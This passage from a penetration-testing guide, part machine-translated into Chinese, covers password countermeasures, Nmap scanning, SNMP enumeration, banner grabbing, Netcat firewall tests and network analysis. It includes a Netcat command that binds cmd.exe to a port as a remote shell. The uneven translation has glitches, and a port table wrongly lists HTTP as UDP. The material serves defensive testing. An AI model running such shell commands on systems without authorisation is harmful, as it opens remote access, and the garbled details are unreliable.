*   通过采用广为人知的硬化最佳实践来加固操作系统，例如来自 SANS ([`https://www.sans.org/critical-security-controls`](https://www.sans.org/critical-security-controls))、NIST ([`https://csrc.nist.gov`](https://csrc.nist.gov))、中心 for Internet Security 基准/评分工具 ([`https://www.cisecurity.org`](https://www.cisecurity.org))，以及 *Network Security For Dummies*（作者 Chey Cobb，John Wiley & Sons, Inc.）中阐述的方法。

*   保持所有 SAM 数据库备份副本的安全。

*   对于密码长度小于 15 个字符的 Windows 密码，禁用 LM 哈希的存储。

    例如，可在 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` 下创建并设置 `NoLMHash` 注册表键值为 1。

*   使用本地或组织安全策略，在 Windows 系统上在密码创建前消除弱密码。

*   禁用 Windows 中的空闲会话，或启用 Windows 防火墙。

*   在 Windows XP 及更高版本中，在本地安全策略中启用 “不允许匿名枚举 SAM 帐户和共享” 选项。

Chapter 12 涵盖了需要深入理解和测试的 Windows 黑客技术。

### Linux 和 Unix

以下防范措施有助于防止 Linux 和 Unix 系统上的密码破解：

*   确保系统使用带阴影的 MD5 密码。

*   帮助防止创建弱密码。可以使用操作系统自带的密码过滤功能（如 Linux 中的 cracklib）或密码审计程序（如 npasswd 或 passwd+）。

*   检查 `/etc/passwd` 文件中是否存在重复的 root UID 条目。黑客可以利用这些条目获得后门访问。

Chapter 13 解释了 Linux 黑客技术以及如何测试 Linux 系统的漏洞。

Part 3

## Hacking Network Hosts

IN THIS PART …

针对网络基础设施系统的弱点进行攻击。

发现常见缺陷并执行针对无线网络的简单攻击。

理解小型移动设备如何造成巨大的安全风险。

Chapter 9

## Network Infrastructure Systems

IN THIS CHAPTER

`选择工具`

`扫描网络主机`

`使用网络分析仪评估安全性`

`防止拒绝服务和基础设施漏洞`

要拥有安全的操作系统和应用程序，你需要一个安全的网络。路由器、防火墙以及通用网络主机（包括服务器和工作站）必须作为安全测试过程的一部分进行评估。

网络中存在数千种可能的漏洞，同样数量的工具和更多的测试技术。你可能没有时间或资源去使用所有 conceivable 工具和方法测试网络基础设施系统的 *所有* 可能漏洞。相反，你需要专注于能够提供整体网络评估的测试。本章描述的测试正好能够满足这一需求。

通过将网络主机更新到最新的供应商软件和固件，你可以消除许多已知的网络相关漏洞。由于许多网络基础设施系统不公开可访问，外部攻击的可能性较低。通过遵循本章所述的安全实践，你可以消除许多其他漏洞。本章中列出的测试、工具和技术在安全评估方面提供了最好的性价比。

更好地理解网络协议，使得网络漏洞测试变得更容易，因为网络协议是大多数信息安全概念的基础。如果你对网络工作不太熟悉，强烈建议你找一本 *TCP/IP For Dummies*，6th Edition（作者 Candace Leiden 和 Marshall Wilensky，John Wiley & Sons, Inc.）阅读。该书帮助我早期建立了网络概念的基础。官方互联网协议标准页面（[`www.rfc-editor.org/standards`](http://www.rfc-editor.org/standards)）上的 RFC 列表也是一个良好的参考资料。

## 理解网络基础设施漏洞

网络基础设施漏洞是大多数技术性安全问题的基础。这些低层次漏洞影响网络上几乎所有运行的内容，因此需要对它们进行测试并尽可能消除。

你在网络基础设施安全测试中的关注点应为：找出他人可以在你的网络中观察到的弱点，以便量化并处理网络的暴露程度。

许多问题与网络基础设施的安全有关。一些问题需要使用各种工具进行正确评估；另一些则可以通过敏锐的观察和逻辑思维来解决。一些问题从网络外部容易观察，另一些则更容易从网络内部发现。

在评估公司网络基础设施安全时，你需要关注以下几点：

*   设备（如防火墙或入侵预防系统 IPS）在网络中的位置及其配置。

*   外部攻击者通过端口扫描能看到什么，以及如何利用网络主机的漏洞。

*   网络设计，包括 Internet 连接、远程访问能力、分层防御以及主机在网络中的位置。

*   已安装的安全设备之间的交互，如防火墙、IPS 和防病毒软件。

*   使用的协议，包括已知存在漏洞的 Secure Sockets Layer (SSL)。

*   经常被攻击的未受保护端口。

*   网络主机的配置。

*   网络监控和维护。

如果有人在上述列表中的某项或网络的任何位置利用漏洞，可能会发生以下情况：

*   攻击者可以发起拒绝服务（DoS）攻击，导致你的 Internet 连接或整个网络瘫痪。

*   恶意内部人员使用网络分析仪可以窃取通过网络发送的电子邮件和文件中的机密信息。

*   黑客可以在网络中设置后门访问。

*   承包商可以通过利用网络中的本地漏洞，针对特定主机发起攻击。

在评估网络基础设施安全之前，请记住以下几点：

*   从外部到内部，以及从内部到内部（即在内部网段和非军事区域 [DMZs] 之间）进行测试。

*   获得与你网络相连的合作网络的许可，以检查可能影响 *你* 网络安全的漏洞，如开放端口、缺少防火墙或配置错误的路由器。


如果您正在寻找易于使用、打包于一身的安全工具，您大多数情况下需要付出相应的代价——尤其是在 Windows 平台上。许多安全专业人员推崇许多免费安全工具，尤其是那些在 Linux 和其他类 Unix 操作系统上运行的工具。许多这些工具如果您有时间、耐心并愿意深入掌握它们的内部机制，能够提供巨大的价值。建议您将免费工具的结果与其商业版本进行对比。我确实发现使用商业工具有一些好处。

### Scanners and analyzers

这些扫描仪几乎涵盖了所有的端口扫描和网络测试需求：

*   **Cain & Abel** ([`www.oxid.it/cain.html`](http://www.oxid.it/cain.html)) 用于网络分析和 ARP 欺骗。

*   **Essential NetTools** ([`https://www.tamos.com/products/nettools`](https://www.tamos.com/products/nettools)) 用于多种网络扫描功能。

*   **NetScanTools Pro** ([`https://www.netscantools.com`](https://www.netscantools.com)) 用于数十种网络安全评估功能，包括 ping 探测、端口扫描和 SMTP 中继测试。

*   **Getif** ([`www.wtcs.org/snmp4tpc/getif.htm`](http://www.wtcs.org/snmp4tpc/getif.htm))，一个老但实用的 SNMP  enumeration 工具。

*   **Nmap** ([`https://nmap.org`](https://nmap.org)) 或 **NMapWin** ([`https://sourceforge.net/projects/nmapwin`](https://sourceforge.net/projects/nmapwin))，NMapWin 是 Nmap 的图形化前端（GUI），用于主机端口探测和操作系统（OS）指纹识别。

*   **Savvius Omnipeek** ([`https://www.savvius.com`](https://www.savvius.com)) 用于网络分析。

*   **TamoSoft CommView** ([`https://www.tamos.com/products/commview`](https://www.tamos.com/products/commview)) 用于网络分析。

*   **Wireshark** ([`http://wireshark.org`](http://wireshark.org)) 用于网络分析。

### Vulnerability assessment

这些漏洞评估工具，以及其他工具，能够让您检查网络主机是否存在已知的各类漏洞以及可能导致安全漏洞的配置问题：

*   **GFI LanGuard** ([`https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard3`](https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard3)) 用于端口扫描和漏洞测试。

*   **Nexpose** ([`https://www.rapid7.com/products/nexpose`](https://www.rapid7.com/products/nexpose))，是一款全能的深度漏洞测试工具。

## Scanning, Poking, and Prodding the Network

在下面的章节中描述的安全测试需要在您的网络基础设施上执行，基本的黑客步骤如下：

1.  **收集信息并映射您的网络。**

2.  **扫描系统，查看哪些系统是可用的。**

3.  **确定您发现的系统上运行的服务。**

4.  **尝试渗透您发现的系统（如果您选择这么做）。**

每种网络卡驱动以及大多数操作系统（包括 Windows、Linux，甚至您的防火墙和路由器）实现的 TCP/IP 都有其特有的 quirks，导致扫描、探测和敲击系统时表现不同。这些不同的表现会导致系统返回的各种响应，从伪正（false-positive）到拒绝服务（DoS）条件不等。请参阅管理员指南或供应商网站，获取已知问题及相应补丁的详细信息。如果您已经为所有系统打补丁，理论上不应出现问题；但切记，任何情况皆有可能。

### Scanning ports

一个 *port scanner* 通过扫描网络，查看哪些主机和服务正在运行，从而展示网络的状态。端口扫描仪提供基本的网络布局视图，帮助您发现未授权的主机或应用，以及可能导致严重安全漏洞的主机配置错误。

端口扫描的宏观视图常常会暴露那些可能被忽视的安全问题。端口扫描仪易于使用，可在任何操作系统和应用上对目标主机进行测试。您通常可以快速完成测试，而无需直接触碰每个网络主机（这将是一件非常麻烦的事）。

评估整体网络安全的关键在于解读端口扫描结果。例如，您可能会出现开放端口的假阳性，需要进一步深入检查。User Datagram Protocol（UDP）扫描，与 UDP 本身一样，可靠性低于 Transmission Control Protocol（TCP）扫描，经常产生假阳性，因为许多应用程序不知道如何响应随机的 UDP 请求。

像 Nexpose 这样功能丰富的扫描器可以在一步内识别端口并显示其运行的服务。

端口扫描的运行时间取决于目标主机数量、扫描端口数量、所用工具、测试系统的处理能力以及网络链路的速度。

一个重要的原则是：不要只扫描重要主机，要“遍历每一块石头”——即使第一次没有发现，也要持之以恒。其他系统如果被忽略，往往会在以后给您造成麻烦。此外，使用不同的工具重复执行相同的测试，看看结果是否一致。并非所有工具都能发现相同的开放端口和漏洞，这虽然令人遗憾，却是漏洞和渗透测试的现实。

如果您使用不同工具运行测试后结果不一致，可能需要进一步调查。如果出现异常，例如一组奇怪的开放端口，那很可能不是误报，需要再次确认；若有疑虑，请使用另一工具从不同角度观察。

如果可能，建议为您发现的每个网络主机扫描全部 65,534 个 TCP 端口。如果发现可疑端口，请查找该应用的文档，确认其为已知且受许可的。扫描全部 65,534 个 UDP 端口也不失为明智之举。请注意，这一过程可能会显著增加扫描时间。

为了获得速度和简便性，您可以扫描在 Table 9-1 中列出的常被攻击的端口。请记住，许多这些端口同时也被各类恶意软件使用。

TABLE 9-1 常被攻击的端口

| **Port Number** || **Service** || **Protocol(s)** |
| --- | --- | --- |
| 7 || Echo || TCP, UDP |
| 19 || Chargen || TCP, UDP |
| 20 || FTP data (File Transfer Protocol) || TCP |
| 21 || FTP control || TCP |
| 22 || SSH || TCP |
| 23 || Telnet || TCP |
| 25 || SMTP (Simple Mail Transfer Protocol) || TCP |
| 37 || Time || TCP, UDP |
| 53 || DNS (Domain Name System) || UDP |
| 69 || TFTP (Trivial File Transfer Protocol) || UDP |
| 79 || Finger || TCP, UDP |
| 80 || HTTP (Hypertext Transfer Protocol) || UDP |
| 110 || POP3 (Post Office Protocol version 3) || TCP |
| 111 || SUN.RPC (remote procedure calls) || TCP, UDP |
| 135 || RPC/DCE (endpoint mapper) for Microsoft networks || TCP, UDP |
| 137, 138, 139, 445 || NetBIOS over TCP/IP || TCP, UDP |
| 161 || SNMP (Simple Network Management Protocol) || TCP, UDP |
| 443 || HTTPS (HTTP over TLS) || TCP |
| 512, 513, 514 || Berkeley r-services and r*\-*commands (such as `rsh`, `rexec`, and `rlogin`) || TCP |
| 1433 || Microsoft SQL Server (ms-sql-s) || TCP, UDP |
| 1434 || Microsoft SQL Monitor (ms-sql-m) || TCP, UDP |
| 1723 || Microsoft PPTP VPN || TCP |
| 3389 || Windows Terminal Server || TCP |
| 8080 || HTTP proxy || TCP |


A ping sweep of all your network subnets and hosts is a good way to find out which hosts are alive and kicking on the network. A `ping sweep` involves pinging a range of addresses using Internet Control Message Protocol (ICMP) packets. Figure 9-1 shows the command and the results of using Nmap to perform a ping sweep of a class C subnet range.



FIGURE 9-1: Performing a ping sweep of an entire class C network with Nmap.

Dozens of Nmap command-line options exist, which can be overwhelming when you want only a basic scan. Nonetheless, you can enter `nmap` on the command line to see all the options available.

You can use the following command-line options for an Nmap ping sweep:

* `-sP` tells Nmap to perform a ping scan.

* `-n` tells Nmap not to perform name resolution.

* `-T 4` tells Nmap to perform an aggressive (faster) scan.

* `192.168.1.1-254` tells Nmap to scan the entire 192.168.1.0 subnet.

#### Using port scanning tools

Most port scanners operate in three steps:

1. The port scanner sends TCP SYN requests to the host or range of hosts you set it to scan.

    Some port scanners perform ping sweeps to determine which hosts are available before starting the TCP port scans.

    Most port scanners scan only TCP ports by default. Don’t forget about UDP ports, which you can scan with a UDP port scanner, such as Nmap.

2. The port scanner waits for replies from the available hosts.

3. The port scanner probes these available hosts for up to 65,534 possible TCP and UDP ports (based on which ports you tell it to scan) to see which ones have available services on them.

The port scans provide the following information about the live hosts on your network:

* Hosts that are active and reachable through the network.

* Network addresses of the hosts found.

* Services or applications that the hosts *may be* running.

After performing a generic sweep of the network, you can dig deeper into specific hosts you find.

#### NMAP

After you have a general idea of what hosts are available and what ports are open, you can perform fancier scans to verify that the ports are actually open and not returning false positives. Nmap allows you to run the following additional scans:

* **Connect:** This basic TCP scan looks for any open TCP ports on the host. You can use this scan to see what’s running and determine whether IPSes, firewalls, or other logging devices are logging the connections.

* **UDP scan:** This basic UDP scan looks for any open UDP ports on the host. You can use this scan to see what’s running and determine whether IPSes, firewalls, or other logging devices are logging the connections.

* **SYN Stealth:** This scan creates a half-open TCP connection with the host, possibly evading IPS systems and logging. This scan is a good one for testing IPSes, firewalls, and other logging devices.

* **FIN Stealth, Xmas Tree, and Null:** These scans let you mix things up a bit by sending strangely formed packets to your network hosts so that you can see how they respond. These scans change the flags in the TCP headers of each packet, which allows you to test how each host handles them to point out weak TCP/IP implementations as well as patches that may need to be applied.

Be careful when performing these scans. You can create your own DoS attack and potentially crash applications or entire systems. Unfortunately, if you have a host with a weak TCP/IP stack (the software that controls TCP/IP communications on your hosts), there’s no good way to prevent your scan from creating a DoS attack. A good way to help reduce the chances of such an attack is to use the slow Nmap timing options — Paranoid, Sneaky, or Polite — when running your scans.

Figure 9-2 shows the NMapWin Scan tab, where you can select the Scan Mode options (Connect, UDP Scan, and so on). If you’re a command-line fan, you see the command-line parameters displayed in the bottom-left corner of the NMapWin screen. This display helps when you know what you want to do and the command-line help isn’t enough.



FIGURE 9-2: In-depth port-scanning options in NMapWin.

If you connect to a single port (as opposed to several at one time) without making too much noise, you may be able to evade your firewall or IPS. This scan is a good test of your network security controls, so look at your logs to see what they saw during this process.

#### NETSCANTOOLS PRO

NetScanTools Pro (`https://www.netscantools.com`) is a nice all-in-one commercial tool for gathering general network information, such as the number of unique IP addresses, NetBIOS names, and MAC addresses. It also has a neat feature that allows you to fingerprint the operating systems of various hosts. Figure 9-3 shows the OS Fingerprinting results while scanning a wireless network access point.



FIGURE 9-3: NetScanTools Pro OS Fingerprinting tool.

#### Countermeasures against ping sweeping and port scanning

Enable only the traffic you need to access internal hosts — preferably as far as possible from the hosts you’re trying to protect — and deny everything else. This guideline goes for standard ports, such as TCP 80 for HTTP and ICMP for ping requests.

Configure firewalls to look for potentially malicious behavior over time (such as the number of packets received in a certain period), and have rules in place to cut off attacks if a certain threshold is reached, such as 10 scanned ports in 10 seconds or 100 consecutive ping (ICMP) requests.

Most firewalls and IPSes can detect such scanning and cut it off in real time.

You *can* break applications on your network when restricting network traffic, so make sure that you analyze what’s going on and understand how applications and protocols are working before you disable any type of network traffic.

### Scanning SNMP

Simple Network Management Protocol (SNMP) is built into virtually every network device. Network management programs (such as HP OpenView and LANDesk) use SNMP for remote network host management. Unfortunately, SNMP also presents security vulnerabilities.

#### Vulnerabilities

The problem is that most network hosts run SNMP enabled with the default read/write community strings of public/private. The majority of network devices that I come across have SNMP enabled and don’t even need it.

If SNMP is compromised, a hacker may be able to gather such network information as ARP tables, usernames, and TCP connections to attack your systems further. If SNMP shows up in port scans, you can bet that a malicious attacker will try to compromise the system.

Here are some utilities for SNMP enumeration:

* The commercial tools NetScanTools Pro and Essential NetTools.

* Free Windows GUI-based Getif.

* Free Windows text-based SNMPUTIL ([`www.wtcs.org/snmp4tpc/FILES/Tools/SNMPUTIL/SNMPUTIL.zip`](http://www.wtcs.org/snmp4tpc/FILES/Tools/SNMPUTIL/SNMPUTIL.zip)).

You can use Getif to enumerate systems with SNMP enabled, as shown in Figure 9-4.



FIGURE 9-4: General SNMP information gathered by Getif.


在本测试中，我从无线接入点中获取了大量信息，包括型号、固件版本和系统运行时间。这些信息如果攻击者想利用该系统中已知的漏洞，就可以用于针对主机进行攻击。通过进一步挖掘，我发现了该接入点上的多个管理界面用户名，如图 9-5 所示。你绝对不想把这些信息公开。



FIGURE 9-5: Management interface user IDs gleaned via Getif’s SNMP browsing function.

#### Countermeasures against SNMP attacks

防止 SNMP 攻击可以很简单，ABC：

*   **A**lways disable SNMP on hosts if you’re not using it — period.

*   **B**lock the SNMP ports (UDP ports 161 and 162) at the network perimeter.

*   **C**hange the default SNMP community read string from `public` and the default community write string from `private` to another long, complex value that’s virtually impossible to guess.

技术上，U 是解决方案的一部分：升级。将系统（至少是你可以升级的系统）升级到 SNMP 版本 3，可以解决许多已知的 SNMP 安全弱点。

### 抓取横幅

*Banners* 是网络主机欢迎屏幕，显示软件版本号和其他系统信息。这些横幅信息可能识别操作系统、版本号以及特定服务包，为攻击者提供攻击网络的优势。你可以使用传统的 Telnet 或我提到的工具（如 Nmap 和 SoftPerfect Network Scanner）来抓取横幅。

#### Telnet

你可以通过默认 Telnet 端口（TCP 端口 23） Telnet 到主机上，看看是否会出现登录提示或其他信息。只需在 Windows 或 Unix 的命令行中输入以下命令：

`telnet ip_address`

你可以通过以下命令 Telnet 到其他常用端口：

*   **SMTP:**  `telnet ip_address 25` 

*   **HTTP:**  `telnet ip_address 80` 

*   **POP3:**  `telnet ip_address 110` 

Figure 9-6 展示了我通过 Telnet 连接到 25 端口的 IceWarp 邮件服务器时获取的具体版本信息。关于 Telnet 的帮助，输入 `telnet /?` 或 `telnet help` 可获得程序的具体使用指南。



FIGURE 9-6:  Information gathered about an email server via Telnet.

#### Countermeasures against banner-grabbing attacks

以下步骤可降低横幅抓取攻击的风险：

*   如果没有业务需求的服务会泄露横幅信息，请在网络主机上禁用这些未使用的服务。

*   如果没有业务需求的默认横幅，或可以自定义横幅，请配置网络主机的应用程序或操作系统以禁用横幅或从横幅中去除攻击者可能利用的信息。请参考特定厂商的说明。Linux 的 TCP Wrappers 也是一种解决方案。

如果你可以自定义横幅，请咨询律师是否在横幅上添加警告。此类警告横幅不能阻止横幅抓取，但会向潜在入侵者表明系统是私有且受监控（假设真的如此）。警告横幅在安全事件发生时，也可能帮助降低公司责任。示例如下：

> *Warning! This is a private system. All use is monitored and recorded. Any unauthorized use of this system may result in civil and/or criminal prosecution to the fullest extent of the law.*

### 测试防火墙规则

在安全测试中，你可以检查防火墙规则，确保它们按预期工作。

### 测试

几项测试可验证防火墙实际执行的功能。你可以通过防火墙连接开放的端口，但对于那些可能开放但本不该开放的端口呢？

#### NETCAT

你可以使用 Netcat（[`http://netcat.sourceforge.net`](http://netcat.sourceforge.net)）在不直接测试生产系统的情况下测试特定防火墙规则。例如，你可以检查防火墙是否允许 Telnet（端口 23）通过。按照以下步骤查看是否可以通过端口 23 建立连接：

1.  **在网络内部的客户机上加载 Netcat。**

    此步骤设置出站连接。

2.  **在防火墙外部的测试机上加载 Netcat。**

    此步骤允许从外部向内部进行测试。

3.  **在客户机（内部）机器上输入 Netcat 监听命令，并指定要测试的端口号。**

    如果你在测试端口 23，输入以下命令：

    `nc –l –p 23 cmd.exe`

4.  **在测试（外部）机器上输入 Netcat 命令以发起入站会话。**

    必须包含以下信息：

    *   你正在测试的内部机器的 IP 地址。

    *   你正在测试的端口号。

    如果内部（客户）机器的 IP 地址是 10.11.12.2，端口是 23，输入以下命令：

    `nc –v 10.11.12.2 23`

如果 Netcat 在外部机器上显示新的命令提示符（Step 3 中的 `cmd.exe` 用途），则说明已建立连接，你可以在内部机器上执行命令！这可以用于多种目的，包括测试防火墙规则、网络地址转换（NAT）、端口转发，以及——呃，执行远程系统上的命令！

#### RULEBASE ANALYZERS

你可以找到多种防火墙规则分析工具，例如 SolarWinds Network Configuration Manager（[`https://www.solarwinds.com/network-configuration-manager`](https://www.solarwinds.com/network-configuration-manager)）和 Firemon Risk Analyzer（[`https://www.firemon.com/products/risk-analyzer`](https://www.firemon.com/products/risk-analyzer)）。这些工具允许你对所有主要厂商的防火墙规则库进行深入分析，以发现传统漏洞扫描和渗透测试可能无法发现的安全缺陷和低效之处。防火墙规则库分析类似于软件源代码分析，因为它能在源码层面找到人眼在进行深入安全测试时（从 Internet 和内部网络）很少能看到的缺陷。如果你从未进行过防火墙规则库分析，强烈推荐你进行一次！

#### 防火墙规则库漏洞的防范措施

以下防范措施可防止黑客测试你的防火墙：

*   **执行防火墙规则库审计。** 我总是说，你不能保护你不认识的东西，防火墙规则库就是最好的例子。无论规则库看起来多么简单，使用自动化工具验证工作从未有害。

*   **仅允许必要的流量。** 在防火墙（如有需要，也在路由器）上设置规则，仅允许必须通过的流量。你可能已经有规则允许内部 web 服务器的入站 HTTP 流量、内部 email 服务器的入站 SMTP 流量，以及外部网络访问的出站 HTTP 流量。

    这些规则是防御试图探测你防火墙的最佳手段。

*   **阻止 ICMP。**

    这有助于防止外部攻击者探测网络，看哪些主机是存活的。

*   **在防火墙上启用状态包检查。**

    这将阻止未经请求的网络请求。

### 分析网络数据


一个 `network analyzer` 允许您查看网络并分析通过线缆传输的数据，用于网络优化、安全性和/或故障排查。就像显微镜是实验室科学家的必备工具一样，网络分析仪是任何安全专业人员的必备工具。

网络分析仪通常被称为 `sniffers`，尽管该术语实际上是 Network Associates 原始 Sniffer 网络分析工具的名称和商标。

网络分析仪用于在线缆上“窃听”数据包。网络分析仪是一款在带有网络卡的计算机上运行的软件。它通过将网络卡设置为 `promiscuous mode`，从而使卡能够看到网络上的所有流量，即使该流量不是发往网络分析仪主机的流量。网络分析仪执行以下功能：

* 捕获所有网络流量。

* 解释或解码所找到的内容为人类可读格式。

* 按时间顺序（或您选择的顺序）显示内容。

在评估安全性并应对安全事件时，网络分析仪可以帮助您：

* 查看异常网络流量，甚至追踪入侵者。

* 在安全事件发生前，建立网络活动和性能的基线（如使用的协议、使用趋势和 MAC 地址）。

当您的网络行为异常时，网络分析仪可以帮助您跟踪并隔离恶意使用、检测恶意木马应用程序，并监控并追踪 DoS 攻击。

#### 网络分析仪程序

您可以使用以下程序进行网络分析：

* **Omnipeek** (`https://www.savvius.com`) 是我最喜欢的网络分析仪之一。它能做我需要的所有事情并更多，使用非常简单。Omnipeek 适用于 Windows 操作系统。

* **CommView** (`https://www.tamos.com/products/commview`) 是一个性价比高、基于 Windows 的优秀替代品。

* **Cain & Abel** (`www.oxid.it/cain.html`) 是一个免费的多功能密码恢复工具，用于执行 ARP 中伪造、捕获数据包、破解密码等操作。

* **Wireshark** (`http://wireshark.org`)，以前称为 Ethereal，是一个免费的替代品。如果我需要快速解决问题且没有笔记本电脑，我会下载并使用该工具。它的用户友好度不如大多数商业产品，但如果你愿意掌握其细节，它功能强大。Wireshark 适用于 Windows 和 macOS X。

* **ettercap** (`http://ettercap.github.io/ettercap`) 是另一个强大的（且免费）实用程序，可在 Windows、Linux 和其他操作系统上进行网络分析及更多操作。

使用网络分析仪时有一些注意事项：

* 要捕获所有流量，您必须将分析仪连接到以下任一项：

    * 网络中的集线器。

    * 交换机的监视/镜像（span）端口。

    * 经过 ARP 中伪造攻击的交换机。

* 如果您想看到类似于网络基于 IPS 的流量，您应该将网络分析仪连接到集线器或交换机监视端口，或即使在防火墙之外的网络钉（tap），如图 9-7 所示。这样，您的测试可以让您查看：

    * 在防火墙过滤掉垃圾流量之前，进入您网络的流量。

    * 在防火墙之后，从您网络离开的流量。



© John Wiley & Sons, Inc. ¶  FIGURE 9-7:  在防火墙外连接网络分析仪。

无论您将网络分析仪连接在防火墙内部还是外部，您都能立即看到结果。返回的信息量可能让人不知所措，但您可以首先关注以下问题：

* **异常流量**，包括：

    * 异常数量的 ICMP 包。

    * 过多的组播或广播流量。

    * 由策略禁止或根据当前网络配置不应存在的协议。

* **Internet 使用习惯**，这有助于指出恶意内部人员或被入侵系统的行为，例如：

    * 浏览网页和社交媒体

    * 电子邮件

    * 使用 Tor

    * 使用即时通讯和其他 P2P 软件

* **可疑使用**，包括：

    * 大量丢失或过大的数据包，表明可能存在黑客工具或恶意软件。

    * 高带宽消耗，可能指示不属于您的网页或 FTP 服务器。

* **侦察探针和系统剖像扫描**，如端口扫描器和漏洞评估工具产生的流量，例如大量来自未知主机的入站流量，特别是针对使用不多的端口，如 FTP 或 Telnet。

* **正在进行的黑客活动**，如大量入站 UDP 或 ICMP 回显请求、SYN 洪水或过多的广播流量。

* **网络中非标准主机名**。如果您的系统命名为 Computer1、Computer2 等，那么名为 GEEKz4evUR 的机器应该引起警觉。

* **隐藏服务器**（尤其是 Web、SMTP、FTP、DNS 和 DHCP），它们可能消耗网络带宽、提供非法软件或访问您的网络主机。

* **针对特定应用程序的攻击**，显示命令如 `/bin/rm`、`/bin/ls`、`echo`、`cmd.exe`，以及 SQL 查询和 JavaScript 注入，我在 第 15 章 中有所介绍。

    您可能需要让网络分析仪运行一段时间 —  — 从几小时到几天不等，具体取决于您要查找的内容。在开始之前，请配置您的网络分析仪以捕获并存储最相关的数据：

* **如果您的网络分析仪允许，请配置它使用先进先出（FIFO）缓冲区。** 这种配置在缓冲区填满时会覆盖最旧的数据，但如果内存和硬盘空间有限，这可能是您唯一的选择。

* **如果您的网络分析仪允许，请记录所有流量到捕获文件并保存到硬盘。** 这种情况理想，尤其是当您拥有大硬盘（4TB 或更大）时。

    您可以在短时间内轻松填满数百吉字节的硬盘空间。我强烈建议在 Omnipeek 所称的 `monitor mode`（监控模式）下运行网络分析仪。该模式允许分析仪跟踪网络使用情况和协议，但不捕获并存储每个单独数据包。如果分析仪支持监控模式，这款工具非常有益，往往就是您所需的全部。

* **当网络流量在网络分析仪中看起来不正常时，它很可能真的不正常。** 与其冒险，不如保险起见。在网络正常工作时运行基线测试。有了基线，您可以在发生攻击时立即看到明显的异常。

我喜欢检查的一点是 `top talkers`（网络上发送/接收流量最多的主机）。如果有人在网络上进行恶意活动，例如托管 FTP 服务器或运行 Internet 文件共享软件，网络分析仪可能是您唯一能发现它的方法。网络分析仪也是检测系统感染恶意软件（如病毒或木马）的好工具。图 9-8 显示了在您的网络上运行可疑协议或应用程序的样子。




FIGURE 9-8:  Omnipeek 可以帮助发现某人运行非法系统，例如 FTP 服务器。

